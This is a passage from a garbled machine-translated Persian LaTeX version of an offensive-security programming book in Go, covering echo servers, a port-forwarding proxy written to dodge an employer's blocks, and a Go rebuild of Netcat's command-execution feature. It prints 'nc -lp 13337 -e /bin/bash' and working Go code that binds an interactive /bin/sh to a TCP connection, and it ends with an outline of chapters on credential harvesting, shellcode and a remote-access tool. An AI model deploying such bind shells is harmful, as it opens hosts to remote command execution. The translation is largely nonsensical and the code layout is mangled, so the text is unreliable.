لیست 2-11 با تعریف تابعی به نام echo (net.Conn) شروع می شود ، که یک نمونه اتصال را به عنوان پارامتر می پذیرد. این به عنوان یک کنترل کننده ارتباط برای انجام تمام I / O لازم انجام می شود. این تابع به طور نامحدود به شما حلقه می زند ، با استفاده از بافر برای خواندن داده های v و نوشتن w از اتصال و اتصال. داده ها در یک متغیر به نام b خوانده شده و متعاقباً روی اتصال نوشته می شوند.

اکنون باید یک شنونده تنظیم کنید که به شما تماس بگیرید. همانطور که قبلاً با مردان سازگار بود ، یک سرور نمی تواند اتصال ایجاد کند بلکه در عوض باید به مشتری گوش دهد تا بتواند ارتباط برقرار کند. بنابراین ، یک شنونده با عنوان tcp که به پورت 20080 تعریف می شود ، با استفاده از تابع x.Listen (شبکه ، رشته آدرس) در تمام رابط ها شروع می شود.

در مرحله بعد ، یک حلقه بینهایت تضمین می کند که سرور همچنان به گوش دادن به اتصالات حتی پس از دریافت دریافت خواهد کرد. در این حلقه ، شما calllistener.Accept () z را انتخاب می کنید ، پس از آنکه blocksexceptionas منتظر اتصالات مشتری است. هنگامی که مشتری متصل می شود ، این عملکرد aConninstance را برمی گرداند. از مباحث قبلی در این بخش به یاد بیاورید که Connis هر دو aReaderand aWriter (این روش رابط theRead ([] بایت) وWrite ([] بایت) را پیاده سازی می کند).

سپس اتصال اتصال به عملکرد echo (net.Conn) انتقال داده می شود T. این تماس با thegokeyword تنظیم شده است و آنرا یک تماس همزمان قرار می دهد تا اتصالات دیگر در حالی که منتظر تکمیل عملکرد کنترل هستند مسدود نشوند. این به احتمال زیاد برای چنین سرور ساده ای بیش از حد است ، اما ما برای نشان دادن الگوی هم زمان بودن سادگی ، مجدداً آن را گنجانده ایم ، در صورتی که هنوز مشخص نیست.
\begin{enumerate}
	\item موضوع اصلی حلقه برگشت و onlistener.Accept () را متوقف می کند در حالی که در انتظار اتصال دیگری است.
	\item goroutine handler ، که اجرای آن به تابع theecho (net.Conn) منتقل شده است ، شروع به کار می کند ، داده ها را پردازش می کند.
\end{enumerate}

در زیر یک مثال با استفاده از Telnet به عنوان مشتری اتصال نشان می دهد:
\begin{latin}
	\begin{lstlisting}$ telnet localhost 20080Trying 127.0.0.1...Connected to localhost.Escape character is '^]'.test of the echo servertest of the echo server
	\end{lstlisting}
\end{latin}

سرور خروجی استاندارد زیر را تولید می کند:
\begin{latin}
	\begin{lstlisting}
	$ go run main.go 2020/01/01 06:22:09 Listening on 0.0.0.0:200802020/01/01 06:22:14 Received connection2020/01/01 06:22:18 Received 25 bytes: test of the echo server2020/01/01 06:22:18 Writing data
	\end{lstlisting}
\end{latin}

انقلابی ، درست است؟ سروری که دقیقاً همان چیزی را که مشتری برای سرور ارسال کرده است به مشتری تکرار می کند. چه مثالی مفید و مهیج! زمان کاملاً زنده بودن است

\subsection{\lr{Improving the Code by Creating a Buffered Listener }}
مثال در لیست 2-11 بسیار خوب عمل می کند اما به تماس های عملکردی نسبتاً کم ، ردیابی بافر و خواندن / نوشتن تکرار شده متکی است. این یک روند خسته کننده و مستعد خطا است. خوشبختانه ، Go شامل بسته های دیگری است که می توانند این فرآیند را ساده کنند و از پیچیدگی کد بکاهند. به طور خاص ، بسته های bufiopackageReaderandWriterto مکانیسم I / O را ایجاد می کند. عملکرد echo به روز شده (net.Conn) در اینجا شرح داده شده است ، و توضیحی در مورد تغییرات به شرح زیر است:
\begin{latin}
	\begin{lstlisting}
func echo(conn net.Conn) {    defer conn.Close()u reader := bufio.NewReader(conn)    s, err := reader.ReadString('\n')v    if err != nil {        log.Fatalln("Unable to read data")    }    log.Printf("Read %d bytes: %s", len(s), s)    log.Println("Writing data")w writer := bufio.NewWriter(conn)    if _, err := writer.WriteString(s)x; err != nil {        log.Fatalln("Unable to write data")    }y writer.Flush()}
	\end{lstlisting}
\end{latin}

دیگر نمی توانید به طور مستقیم توابعRRead ([] بایت) وWrite ([] بایت) را روی اتصال برقرار کنید. در عوض ، شما در حال ایجاد یک بافر جدید ReaderandWriterviaNewReader (io.Reader) u وNewWriter (io.Writer) w هستید. این تماسها ، به عنوان یک پارامتر ، یک ReaderandWriter موجود را به خود اختصاص می دهد (به یاد داشته باشید ، Conntype توابع لازم را برای بررسی در مورد aReaderandaWriter به اجرا در می آورد).

هر دو نمونه بافر حاوی توابع مکمل برای خواندن و نوشتن داده های رشته ای هستند. ReadString (بایت) یک شخصیت تعیین کننده استفاده می کند تا میزان خواندن را مشخص کند ، در حالی که WRiteString (بایت) x رشته را به سوکت می نویسد. هنگام نوشتن داده ها ، باید صریحاً با نویسنده تماس بگیرید. فلش () y را برای نوشتن همه داده ها به نویسنده اصلی (در این حالت ، یک اتصال) فراخوانی کنید.

مثال های قبلی Althoughthe این فرآیند را با استفاده از I / O با استفاده از buff-ered ، ساده می کند ، می توانید برای استفاده از تابع راحتی theCopy (Writer ، Reader) از آن استفاده مجدد کنید. این عملکرد را به یاد بیاورید تا ورودی را وارد کنید Writerand و asourceReader ، به سادگی از منبع به مقصد کپی کنید.

در این مثال ، شما از متغیر اتصال به عنوان منبع و مقصد عبور خواهید کرد زیرا می خواهید محتویات را بر روی اتصال برقرار کنید:
\begin{latin}
	\begin{lstlisting}
	func echo(connnet.Conn) {    defer conn.Close()    // Copy data from io.Reader to io.Writer via io.Copy().    if _, err := io.Copy(conn,conn); err != nil {        log.Fatalln("Unable to read/write data")    }}
	\end{lstlisting}
\end{latin}

شما اصول اولیه I / O را کاوش کرده و آن را روی سرورهای TCP اعمال کرده اید. اکنون زمان آن رسیده است که به مثالهای مرتبط با کاربردی تر برویم.
\subsection{\lr{Proxyinga TCPClient}}
اکنون که پایه و اساس محکمی دارید ، می توانید از آنچه که تاکنون آموخته اید ، استفاده کنید و یک فرستنده پورت ساده ایجاد کنید تا از طریق یک سرویس واسطه یا میزبان واسطه ، یک ارتباط برقرار کنید. همانطور که قبلاً در این فصل ذکر شد ، این کار برای تلاش برای دور زدن کنترل محدودکننده خروج اهرم از اهرم اهرمی یک سیستم برای دور زدن تقسیم بندی شبکه مفید است.

قبل از تهیه کد ، این مشکل خیالی ، اما واقع بینانه را در نظر بگیرید: Joe isan underperformingemployee که برای شرکت ACME به عنوان یک تحلیلگر مشاغل کار می کند و بر اساس مبالغه هایی جزئی که در رزومه کاری خود انجام داده است ، دستمزد خوش تیپ می گیرد. (آیا او واقعاً به یک مدرسه آیوی لیگ رفته است؟ جو ، این خیلی اخلاقی نیست.) عدم انگیزه جو عاشق عشق به گربه ها است - به حدی که جو دوربین های گربه را در خانه نصب کرد و یک سایت ، joes-catcam.website ، از طریق آن نصب کرد. او می توانست از راه دور کیسه های کرکی پر از شوره سر را کنترل کند. اگرچه یک مشکل: ACMEis روی جو. آنها دوست ندارند که وی با استفاده از پهنای باند شبکه ارزشمند ACME ، در حال پخش آنلاین گربه cam24 / 7 در 4Kultrahigh-def باشد. ACME حتی کارمندان خود را نیز از بازدید از camwebsite گربه جو منع کرده است.

جو ایده ای دارد جو می گوید: "چه می شود اگر Iset upa porte-forwarder را روی سیستم مبتنی بر اینترنت کنترل كنم ،" و تغییر مسیر همه ترافیك را از آن میزبان به joescatcam.website مجبور كنید؟ " وب سایت شخصی وی که در joesproxy.comdomain میزبان بود. جو جلسات بعد از ظهر خود را رد می کند ، به یک کافی شاپ می رود و به سرعت راه حل مشکل خود را رمزگذاری می کند. او کلیه ترافیک دریافت شده در athttp را هدایت می کند: //joesproxy.comtohttp: //joescatcam.website.

در اینجا کد جو ، او در thejoesproxy.comserver اجرا شده است:

\begin{latin}
	\begin{lstlisting}
func handle(src net.Conn) {
	dst, err := net.Dial("tcp", "joescatcam.website:80")
	if err != nil {        log.Fatalln("Unable to connect to our unreachable host")    }    defer dst.Close()    // Run in goroutine to prevent io.Copy from blockingv go func() {        // Copy our source's output to the destination        if _, err := io.Copy(dst, src)w; err != nil {            log.Fatalln(err)        }    }()    // Copy our destination's output back to our source    if _, err := io.Copy(src, dst)x; err != nil {        log.Fatalln(err)    }}
	func main() {    // Listen on local port 80    listener, err := net.Listen("tcp", ":80")    if err != nil {        log.Fatalln("Unable to bind to port")    }    for {        conn, err := listener.Accept()        if err != nil {            log.Fatalln("Unable to accept connection")        }        go handle(conn)    }}
	\end{lstlisting}
\end{latin}

با بررسی عملکرد Joeshandle (net.Conn) شروع کنید. جو به joescatcam.websiteu متصل می شود (به یاد بیاورید که این میزبان دست نیافتنی به طور مستقیم از ایستگاه کاری شرکت Jo قابل دسترسی نیست). جوین از دو بار جداگانه از کپی (نویسنده ، خواننده) استفاده می کند. اولین مصارف که داده های اتصال از طریق مرز را کپی می کنند ، اتصال joescatcam.website است. نمونه دوم x اطمینان حاصل می کند که داده های خوانده شده از joescatcam.website به اتصال کامل مشتری متصل می شود. بدینوسیله کپی (Writer ، Reader) یک عملکرد مسدود کننده است و تا زمان بسته شدن اتصال شبکه بسته نمی شود ، جو به طرز عاقلانه ای خواستار کپی کردن می شود ( نویسنده ، خواننده) در مجله جدید علیه این تضمین می کند که اجرای آن در عملکرد دسته (net.Conn) قرار دارد ، و thesecondCop (نویسنده ، خواننده) callcan bemade.

جو در پورت80 گوش می دهد و هر ترافیکی را که از اتصال به و از port80 در joescatcam.website دریافت کرده است ، دریافت می کند. جو ، آن مرد كلاسی و زباله ، تأیید می كند كه می تواند به joescatcam.website از طریق joesproxy.com متصل شود:
\begin{latin}
	\begin{lstlisting}
	$ curl -i-XGEThttp://joesproxy.comHTTP/1.1 200 OKDate: Wed, 25 Nov 2020 19:51:54 GMTServer: Apache/2.4.18 (Ubuntu)Last-Modified: Thu, 27 Jun 2019 15:30:43 GMTETag: "6d-519594e7f2d25"Accept-Ranges: bytesContent-Length: 109Vary: Accept-EncodingContent-Type: text/html--snip--
	\end{lstlisting}
\end{latin}

در این مرحله ، جو آن را انجام داده است. او رویای خود را تجربه می کند ، وقت خود را با حمایت ACME و پهنای باند شبکه هدر می دهد ، در حالی که گربه های خود را تماشا می کند. امروز ، گربه ها وجود خواهد داشت!
\subsection{\lr{Replicating Netcat for Command Execution}}
در این بخش ، به ویژگی های جالب توجه Netcat - به ویژه سوراخ امنیتی شکاف آن - می پردازیم.

Netcat اصطلاحاً چاقوی TCP / IP ارتش سوئیس است - در واقع ، نسخه قابل چاپ و انعطاف پذیر تر از Telnet. این نرم افزار شامل ویژگی هایی است که اجازه می دهد تا هر برنامه دلخواهی از طریق TCP هدایت شود و یک مهاجم را به عنوان مثال ، یک آسیب پذیری اجرای یک فرمان را به دسترسی پوسته سیستم عامل تبدیل کند. موارد زیر را در نظر بگیرید:
\begin{latin}
	\begin{lstlisting}
	$ nc–lp 13337 –e /bin/bash
	\end{lstlisting}
\end{latin}

این دستور یک سرور گوش دهنده را در درگاه 13337 ایجاد می کند. هر مشتری از راه دور ، که از طریق Telnet ، متصل می شود ، می تواند دستورات bash دلخواه را اجرا کند - از این رو ، دلیل این امر به عنوان یک سوراخ امنیتی شکاف نامیده می شود. Netcat به شما امکان می دهد تا به طور اختیاری این ویژگی را در طول تدوین برنامه گنجانید. (به دلایل خوب ، بیشتر باینری های Netcat که در ساختهای استاندارد لینوکس پیدا خواهید کرد ، این ویژگی را شامل نمی شود.) این به اندازه کافی خطرناک است که ما به شما نشان دهیم که چگونه می توانید آن را در بروید!

ابتدا به Goosos / execpackage نگاه کنید. شما از آن برای اجرای دستورات سیستم عامل استفاده خواهید کرد. این نوع بسته بندی شده ، Cmd ، که شامل روش ها و ویژگی های لازم برای اجرای دستورات و دستکاری stdin و stdout است. شما stdin (aReader) و stdout (aWriter) را به یک اتصال (که هم خواننده و هم نویسنده است) تغییر مسیر می دهید.

هنگامی که شما یک اتصال جدید دریافت می کنید ، می توانید از Command (namestring ، arg ... string) از تابع fromos / execto استفاده کنید و یکCC جدید ایجاد کنید. این عملکرد به عنوان پارامتر فرمان سیستم عامل و هرگونه استدلال در نظر می گیرد. در این مثال ، کدکد / bin / sh به عنوان فرمان و یک استدلال را به گونه‌ای تصویب کنید که حالت تعاملی در آن نباشد ، که به شما امکان می دهد stdin و stdout را با اطمینان بیشتری دستکاری کنید:
\begin{latin}
	\begin{lstlisting}
cmd := exec.Command("/bin/sh", "-i")
	\end{lstlisting}
\end{latin}

این نمونه ای از Cmdbut هنوز این دستور را اجرا نمی کند. شما چند گزینه برای دستکاری stdin و stdout دارید. همانطور که قبلاً بحث شد می توانید از کپی (نویسنده ، خواننده) استفاده کنید ، یا مستقیماً Reader و WritrtoCmd را اختصاص دهید. بیایید Connobject را مستقیماً به cmd.Stdin و cmd.Stdout اختصاص دهیم ، مانند این:
\begin{latin}
	\begin{lstlisting}
cmd.Stdin =conn
cmd.Stdout =conn
	\end{lstlisting}
\end{latin}

با پایان یافتن فرمان و جریانها ، فرمان را با استفاده از cmd.Run () اجرا می کنید:
\begin{latin}
	\begin{lstlisting}
if err := cmd.Run(); err != nil {// Handle error.}
	\end{lstlisting}
\end{latin}

این منطق در سیستمهای لینوکس کاملاً خوب است. با این حال ، هنگام اجرای برنامه و اجرای برنامه روی سیستم ویندوز ، با اجرای cmd.exeinstead از / bin / bash ، متوجه می شوید که مشتری متصل کننده هرگز نتیجه خروجی فرمان را به دلیل برخی از عملکردهای خاص ویندوز از لوله های آنی موس دریافت نمی کند. در اینجا دو راه حل برای این مشکل ارائه شده است.

ابتدا ، شما می توانید کد را نیشگون گیر کنید تا صراحت شارژ stdout را برای تصحیح این ضرورت مجبور کنید. به جای اختصاص Conndirectly tocmd.Stdout ، شما یک customWriterthat wrapsbufio.Writer (یک نویسنده بافر) را یادداشت می کنید و صریحاً Flushmethod خود را صدا می زنید تا بافر را مجبور کند. برای استفاده نمونه از ofbufio.Writer به "ایجاد سرور اکو" در صفحه 35 مراجعه کنید.
\begin{latin}
	\begin{lstlisting}
	// Flusher wraps bufio.Writer, explicitly flushing on all writes.type Flusher struct {w *bufio.Writer}//NewFlushercreates a new Flusher from an io.Writer.funcNewFlusher(w io.Writer) *Flusher {return &Flusher{w: bufio.NewWriter(w),}}// Write writes bytes and explicitly flushes buffer.u func (foo *Flusher) Write(b []byte) (int, error) {count, err := foo.w.Write(b)vif err != nil {return -1, err}    if err := foo.w.Flush()w; err != nil {return -1, err}return count, err}
	\end{lstlisting}
\end{latin}

نوع Flusher یک تابع aWrite ([] بایت) را اجرا می کند که داده ها را به نویسنده بافر زیرین می نویسد و سپس خروجی را پرتاب می کند.

با اجرای یک نویسنده سفارشی ، می توانید کنترل کننده اتصال را نیشگون گرفتن و کشیدن بکشید تا از این نوع Flushercustom forcmd.Stdout استفاده کنید و از آن استفاده کنید:
\begin{latin}
	\begin{lstlisting}
	func handle(connnet.Conn) { //Explicitly calling /bin/sh and using -ifor interactive mode //so that we can use it for stdin and stdout. //For Windows use exec.Command("cmd.exe"). cmd := exec.Command("/bin/sh", "-i")// Set stdin to our connectioncmd.Stdin=conn//Create a Flusher from the connection to use for stdout. //This ensures stdout is flushed adequately and sent via net.Conn.cmd.Stdout = NewFlusher(conn)// Run the command.if err := cmd.Run(); err != nil {
	log.Fatalln(err)}}
	\end{lstlisting}
\end{latin}

این راه حل ، در عین حال کافی ، قطعاً ظریف نیست. اگرچه کد کار از کد ظریف مهمتر است ، ما از این مشکل به عنوان فرصتی برای معرفی عملکرد theio.Pipe () استفاده می کنیم ، لوله همزمان حافظه Go است که می تواند برای اتصال خوانندگان و نویسندگان استفاده شود:
\begin{latin}
	\begin{lstlisting}
func Pipe() (*PipeReader, *PipeWriter)
	\end{lstlisting}
\end{latin}

با استفاده ازPipeReaderandPipeWriter به شما اجازه می دهد تا به طور صریح و روشن به نویسنده متلاشی نشوید و همزمان اتصال stdoutand و اتصال TCP را از بین ببرید. شما ، در عین حال ، عملکرد عملکرد را بازنویسی خواهید کرد:
\begin{latin}
	\begin{lstlisting}
func handle(connnet.Conn) {
	// Explicitly calling /bin/sh and using -i for interactive mode
	// so that we can use it for stdin and stdout.
	//For Windows use exec.Command("cmd.exe").
	cmd := exec.Command("/bin/sh", "-i")
	// Set stdin to our connection
	rp, wp := io.Pipe()
	cmd.Stdin =connv cmd.Stdout = wpw go io.Copy(conn, rp) cmd.Run() conn.Close()}
	\end{lstlisting}
\end{latin}

فراخوانی io.Pipe () هم خواننده و هم نویسنده ای را که به طور همزمان در ارتباط هستند ucreates می کند - هر داده ای که برای نویسنده نوشته شده است (wpinthis exam-ple) توسط خواننده خوانده می شود (rp) .بنابراین ، شما نویسنده را به cmd اختصاص می دهید. .Stdoutvand سپس از Copy (Writer، Reader) w برای پیوند PipeReaderto TCPcon-nection استفاده کنید. شما این کار را با استفاده از agoroutinetopreventthecodefrom block-ing انجام می دهید. اتصال TCP چگونه این برای ظریف است؟

با این کار ، شما با موفقیت حفره امنیتی شکاف Netcat را از منظر شنونده TCP که منتظر یک اتصال است ، پیاده سازی کرده اید. می توانید از منطق مشابهی برای پیاده سازی ویژگی از منظر مشتری متصل کننده جهت تغییر مسیر stdout و stdin یک باینری محلی به شنونده از راه دور استفاده کنید. جزئیات دقیق برای تعیین به شما واگذار شده است ، اما احتمالاً موارد زیر را شامل می شود:
\begin{enumerate}
	\item اتصال به یک گوش دهنده راه دور vianet.Dial (شبکه ، آدرس دهی) را برقرار کنید.
	\item aCmd viaexec.Command را شروع کنید (رشته رشته ، Arg ... رشته).
	\item جهت استفاده از thenet.Connobject از StdinandStdoutproperties تغییر مسیر دهید.
	\item دستور را اجرا کنید.
\end{enumerate}

در این مرحله شنونده باید یک اتصال دریافت کند. داده های ارسالی به مشتری باید به عنوان stdin در مورد مشتری تعبیر شود ، و هر گونه داده دریافت شده در شنونده باید به عنوان stdout تفسیر شود. کد کامل این مثال در https://github.com/blackhat-go/bhg/ ch-2 / netcat-exec /.
\section{\lr{Summary}}
اکنون که برنامه‌های کاربردی کاربردی و استفاده از Go را به عنوان مربوط به شبکه ، I / O و همزمانی مورد بررسی قرار داده اید ، بیایید به سمت ایجاد سرویس گیرنده های قابل استفاده HTTP حرکت کنیم.
\chapter{\lr{HTTP Clients: Remote Interaction with Tools}}
\section{\lr{HTTP Fundamentals with Go}}
\subsection{\lr{Calling HTTP APIs}}
\subsection{\lr{Generating a Request}}
\subsection{\lr{Using Structured Response Parsing}}
\section{\lr{Building an HTTP Client That Interacts with Shodan}}
\subsection{\lr{Reviewing the Steps for Building an API Client}}
\subsection{\lr{Designing the Project Structure}}
\subsection{\lr{Cleaning Up API Calls}}
\subsection{\lr{Querying Your Shodan Subscription}}
\subsection{\lr{Creating a Client}}
\section{\lr{Interacting with Metasploit}}
\subsection{\lr{Setting Up Your Environment}}
\subsection{\lr{Defining Your Objective}}
\subsection{\lr{Retrieving a Valid Token}}
\subsection{\lr{Defining Request and Response Methods}}
\subsection{\lr{Creating a Configuration Struct and an RPC Method}}
\subsection{\lr{Performing Remote Calls}}
\subsection{\lr{Creating a Utility Program}}
\section{\lr{Parsing Document Metadata with Bing Scraping}}
\subsection{\lr{Setting Up the Environment and Planning}}
\subsection{\lr{Defining the metadata Package}}
\subsection{\lr{Mapping the Data to Structs}}
\subsection{\lr{Searching and Receiving Files with Bing}}


نمونه اجرای کد خروجی مشابه با موارد زیر را ارائه می دهد:
\begin{latin}
	\begin{lstlisting}
$ go run main.go nytimes.com docx
0: http://graphics8.nytimes.com/packages/pdf/2012NAIHSAnnualHIVReport041713.docx2020/12/21 11:53:50     Jonathan V. Iralu     Dan Frosch - Microsoft Macintosh Word 2010
1: http://www.nytimes.com/packages/pdf/business/Announcement.docx2020/12/21 11:53:51     agouser               agouser - Microsoft Office Outlook 2007
2: http://www.nytimes.com/packages/pdf/business/DOCXIndictment.docx2020/12/21 11:53:51     AGO                   Gonder, Nanci - Microsoft Office Word 2007
3: http://www.nytimes.com/packages/pdf/business/BrownIndictment.docx2020/12/21 11:53:51     AGO                   Gonder, Nanci - Microsoft Office Word 2007
4: http://graphics8.nytimes.com/packages/pdf/health/Introduction.docx2020/12/21 11:53:51     Oberg, Amanda M       Karen Barrow - Microsoft Macintosh Word 2010
	\end{lstlisting}
\end{latin}
اکنون می توانید در حالی که یک دامنه خاص را هدف قرار دهید ، می توانید فوق داده های سند را برای همه پرونده های Open XML جستجو و استخراج کنید. من شما را تشویق می کنم که برای گسترش این مثال ، منطق لازم را برای پیمایش نتایج جستجوی بینگ ، انواع دیگر فایلهای فراتر از Open XML ، و افزودن کد برای بارگیری همزمان فایلهای شناسایی شده فراهم کنید.
\section{\lr{Summary}}
این فصل مفاهیم بنیادی HTTP را در Go برای شما معرفی کرده است که شما برای ایجاد ابزارهای قابل استفاده در تعامل با API های از راه دور و همچنین ضبط داده های دلخواه HTML استفاده کرده اید. در فصل بعد ، شما با یادگیری ایجاد سرورها به جای سرویس دهنده ، با موضوع HTTP ادامه خواهید داد.
\chapter{\lr{HTTP Servers: Routing and Middleware}}
\section{\lr{HTTP Server Basics}}
\section{\lr{Credential Harvesting}}
\section{\lr{Keylogging with the WebSocket API}}
\section{\lr{Multiplexing C2}}
\section{\lr{Summary}}
\chapter{\lr{Exploiting DNS: Recon and More}}
\section{\lr{Writing DNS Clients}}
\section{\lr{Writing DNS Servers}}
\section{\lr{Summary}}
\chapter{\lr{SMB and NTLM: A Peek Down the Rabbit Hole}}
\section{\lr{The SMB Package}}
\section{\lr{Understanding SMB}}
\section{\lr{Guessing Passwords with SMB}}
\section{\lr{Reusing Passwords with the Pass-the-Hash Technique}}
\section{\lr{Recovering NTLM Passwords}}
\section{\lr{Summary}}
\chapter{\lr{Databases and Filesystems: Pilfering and Abusing}}
\section{\lr{Setting Up Databases with Docker}}
\section{\lr{Connecting and Querying Databases in Go}}
\section{\lr{Building a Database Miner}}
\section{\lr{Pillaging a Filesystem}}
\section{\lr{Summary}}
\chapter{\lr{Packet Processing: Living on the Wire}}
\section{\lr{Setting Up Your Environment}}
\section{\lr{Identifying Devices by Using the pcap Subpackage}}
\section{\lr{Live Capturing and Filtering Results}}
\section{\lr{Sniffing and Displaying Cleartext User Credentials}}
\section{\lr{Port Scanning Through SYN-flood Protections}}
\section{\lr{Summary}}
\chapter{\lr{Exploit Code: Writing and Porting}}
\section{\lr{Creating a Fuzzer}}
\section{\lr{Porting Exploits to Go}}
\section{\lr{Creating Shellcode in Go}}
\section{\lr{Summary}}
\chapter{\lr{Extendable Tools: Using Go Plugins and Lua}}
\section{\lr{Using Go’s Native Plug-in System}}
\section{\lr{Building Plug-ins in Lua}}
\section{\lr{Summary}}
\chapter{\lr{Cryptography: Implementing and Attacking}}
\section{\lr{Reviewing Basic Cryptography Concepts}}
\section{\lr{Understanding the Standard Crypto Library}}
\section{\lr{Exploring Hashing}}
\section{\lr{Authenticating Messages}}
\section{\lr{Encrypting Data}}
\section{\lr{Brute-Forcing RC2}}
\section{\lr{Summary}}
\chapter{\lr{Windows: System Interaction and Analysis}}
\section{\lr{The Windows API’s OpenProcess() Function}}
\section{\lr{The unsafe.Pointer and uintptr Types}}
\section{\lr{Performing Process Injection with the syscall Package}}
\section{\lr{The Portable Executable File}}
\section{\lr{Using C with Go}}
\section{\lr{Summary}}
\chapter{\lr{Steganography: Hiding Data}}
\section{\lr{Exploring the PNG Format}}
\section{\lr{Reading Image Byte Data }}
\section{\lr{Writing Image Byte Data to Implant a Payload}}
\section{\lr{Encoding and Decoding Image Byte Data by Using XOR }}
\section{\lr{Summary}}
\section{\lr{Additional Exercises}}
\chapter{\lr{Command and Control: Building a RAT}}
\section{\lr{Getting Started}}
\section{\lr{Defining and Building the gRPC API}}
\section{\lr{Creating the Server}}
\section{\lr{Creating the Client Implant}}
\section{\lr{Building the Admin Component}}
\section{\lr{Running the RAT}}
\section{\lr{Improving the RAT}}
\section{\lr{Summary}}
\printindex
\end{document}